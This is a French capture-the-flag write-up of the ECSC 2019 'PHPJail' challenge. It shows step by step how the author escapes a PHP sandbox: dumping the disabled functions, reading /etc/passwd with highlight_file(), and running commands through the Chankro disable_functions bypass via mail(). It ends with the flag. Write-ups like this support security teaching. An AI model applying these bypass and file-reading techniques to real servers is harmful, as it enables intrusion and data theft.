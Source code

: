 ```yaml
---
weight: 4
title: "[ECSC] - PHPJail"
date: 2019-06-27T21:57:40+08:00
draft: false
author: "Maki"
authorLink: "https://www.maki.bzh"
description: ""
images: []
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["anssi", "ecsc", "jail", "php", "chankro"]
categories: ["Writeups"]

lightgallery: true
---
```


## Description

> Saurez-vous sortir de cette prison PHP pour retrouver le fichier flag présent sur le système ?

## Etat des lieux

Nous sommes face à une jail PHP, commençons par un `phpinfo();` histoire de voir ce qui n'est pas autorisé:

```bash
➜  phpjail cat <(echo "phpinfo();") - | nc challenges.ecsc-teamfrance.fr 4002
    /// PHP JAIL ////

    There's a file named flag on this filesystem.
    Find it.
    Read it.
    Flag it.


Enter your command: phpinfo()
PHP Version => 7.0.33-0+deb9u3
[...]
disable_classes => Directory, DirectoryIterator, FilesystemIterator, GlobIterator, RecursiveDirectoryIterator, SplFileObject, SplFileInfo => Directory, DirectoryIterator, FilesystemIterator, GlobIterator, RecursiveDirectoryIterator, SplFileObject, SplFileInfo
disable_functions => system, exec, shell_exec, passthru, show_source, popen, proc_open, fopen_with_path, dbmopen, dbase_open, move_uploaded_file, chdir, mkdir, rmdir, rename, filepro, filepro_rowcount, filepro_retrieve, posix_mkfifo, fopen, fread, file_get_contents, readfile, opendir, readdir, scandir, glob, file, dir, posix_ctermid, posix_getcwd, posix_getegid, posix_geteuid, posix_getgid, posix_getgrgid, posix_getgrnam, posix_getgroups, posix_getlogin, posix_getpgid, posix_getpgrp, posix_getpid, posix, _getppid, posix_getpwnam, posix_getpwuid, posix_getrlimit, posix_getsid, posix_getuid, posix_isatty, posix_kill, posix_mkfifo, posix_setegid, posix_seteuid, posix_setgid, posix_setpgid, posix_setsid, posix_setuid, posix_times, posix_ttyname, posix_uname, virtual, openlog, closelog, ini_set, ini_restore, ignore_user_abort, link, pcntl_alarm, pcntl_exec, pcntl_fork, pcntl_get_last_error, pcntl_getpriority, pcntl_setpriority, pcntl_signal, pcntl_signal_dispatch, pcntl_sigprocmask, pcntl_sigtimedwait, pcntl_sigwaitinfo, pcntl_strerror, pcntl_wait, pcntl_waitpid, pcntl_wexitstatus, pcntl_wifexited, pcntl_wifsignaled, pcntl_wifstopped, pcntl_wstopsig, pcntl_wtermsig, ftp_connect, ftp_exec, ftp_get, ftp_login, ftp_nb_fput, ftp_put, ftp_raw, ftp_rawlist, is_dir => system, exec, shell_exec, passthru, show_source, popen, proc_open, fopen_with_path, dbmopen, dbase_open, move_uploaded_file, chdir, mkdir, rmdir, rename, filepro, filepro_rowcount, filepro_retrieve, posix_mkfifo, fopen, fread, file_get_contents, readfile, opendir, readdir, scandir, glob, file, dir, posix_ctermid, posix_getcwd, posix_getegid, posix_geteuid, posix_getgid, posix_getgrgid, posix_getgrnam, posix_getgroups, posix_getlogin, posix_getpgid, posix_getpgrp, posix_getpid, posix, _getppid, posix_getpwnam, posix_getpwuid, posix_getrlimit, posix_getsid, posix_getuid, posix_isatty, posix_kill, posix_mkfifo, posix_setegid, posix_seteuid, posix_setgid, posix_setpgid, posix_setsid, posix_setuid, posix_times, posix_ttyname, posix_uname, virtual, openlog, closelog, ini_set, ini_restore, ignore_user_abort, link, pcntl_alarm, pcntl_exec, pcntl_fork, pcntl_get_last_error, pcntl_getpriority, pcntl_setpriority, pcntl_signal, pcntl_signal_dispatch, pcntl_sigprocmask, pcntl_sigtimedwait, pcntl_sigwaitinfo, pcntl_strerror, pcntl_wait, pcntl_waitpid, pcntl_wexitstatus, pcntl_wifexited, pcntl_wifsignaled, pcntl_wifstopped, pcntl_wstopsig, pcntl_wtermsig, ftp_connect, ftp_exec, ftp_get, ftp_login, ftp_nb_fput, ftp_put, ftp_raw, ftp_rawlist, is_dir
[...]
```

Bon, ça fait un paquet de choses interdites.

## Read everywhere

La fonction `highlight_file();` n'est pas bloqué, on va s'en servir pour lire des fichiers :

```bash
➜  phpjail cat <(echo "highlight_file('/etc/passwd');") - | nc challenges.ecsc-teamfrance.fr 4002

    /// PHP JAIL ////

    There's a file named flag on this filesystem.
    Find it.
    Read it.
    Flag it.


Enter your command: <code><span style="color: #000000">
root:x:0:0:root:/root:/bin/bash<br />daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br />bin:x:2:2:bin:/bin:/usr/sbin/nologin<br />sys:x:3:3:sys:/dev:/usr/sbin/nologin<br />sync:x:4:65534:sync:/bin:/bin/sync<br />games:x:5:60:games:/usr/games:/usr/sbin/nologin<br />man:x:6:12:man:/var/cache/man:/usr/sbin/nologin<br />lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin<br />mail:x:8:8:mail:/var/mail:/usr/sbin/nologin<br />news:x:9:9:news:/var/spool/news:/usr/sbin/nologin<br />uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin<br />proxy:x:13:13:proxy:/bin:/usr/sbin/nologin<br />www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br />backup:x:34:34:backup:/var/backups:/usr/sbin/nologin<br />list:x:38:38:Mailing&nbsp;List&nbsp;Manager:/var/list:/usr/sbin/nologin<br />irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin<br />gnats:x:41:41:Gnats&nbsp;Bug-Reporting&nbsp;System&nbsp;(admin):/var/lib/gnats:/usr/sbin/nologin<br />nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin<br />_apt:x:100:65534::/nonexistent:/bin/false<br />Debian-exim:x:101:101::/var/spool/exim4:/bin/false<br />messagebus:x:102:103::/var/run/dbus:/bin/false<br />user0:x:999:999::/home/user0:/bin/zsh<br /></span>
</code>
Bye!
```

## Command execution

On peut remarquer que la fonction `mail();` n'est pas non plus bloquée, on pourrait s'en servir.

> https://www.tarlogic.com/en/blog/how-to-bypass-disable_functions-and-open_basedir/

Tarlogic a fait un outil permettant de créer un fichier PHP avec le payload et les libs embarqués:

> https://github.com/TarlogicSecurity/Chankro

Premièrement, localiser le fichier flag:

```bash
(Chankro) ➜  Chankro git:(master) ✗ cat rev.sh
#!/bin/sh

find / -name flag > /tmp/asas

(Chankro) ➜  Chankro git:(master) ✗ python chankro.py --arch 64 --input rev.sh --output chan.php --path /tmp/


     -=[ Chankro ]=-
    -={ @TheXC3LL }=-


[+] Binary file: rev.sh
[+] Architecture: x64
[+] Final PHP: chan.php


[+] File created!
```

Pour pouvoir executer le contenu de `chan.php` on va virer les balises PHP `<?php ?>` et les saut de lignes. Lorsque c'est fait, il ne reste plus qu'à l'envoyer:

```bash
(Chankro) ➜  Chankro git:(master) ✗ cat chan.php - | nc challenges.ecsc-teamfrance.fr 4002
[...]
Enter your command:
Bye!

(Chankro) ➜  Chankro git:(master) ✗ cat <(echo "highlight_file('/tmp/asas');") - | nc challenges.ecsc-teamfrance.fr 4002
[...]
Enter your command: <code><span style="color: #000000">
/home/user0/.sensitive/randomdir/flag<br />/usr/local/lib/python2.7/dist-packages/pwnlib/flag<br /></span>
</code>
Bye!
```

> /home/user0/.sensitive/randomdir/flag

```bash
(Chankro) ➜  Chankro git:(master) ✗ cat <(echo "highlight_file('/home/user0/.sensitive/randomdir/flag');") - | nc challenges.ecsc-teamfrance.fr 4002
[...]
Enter your command: <code><span style="color: #000000">
ECSC{22b1843abfd76008ce3683e583c66e85c6bbdc65}<br /></span>
</code>
Bye!
```

## Flag

> ECSC{22b1843abfd76008ce3683e583c66e85c6bbdc65}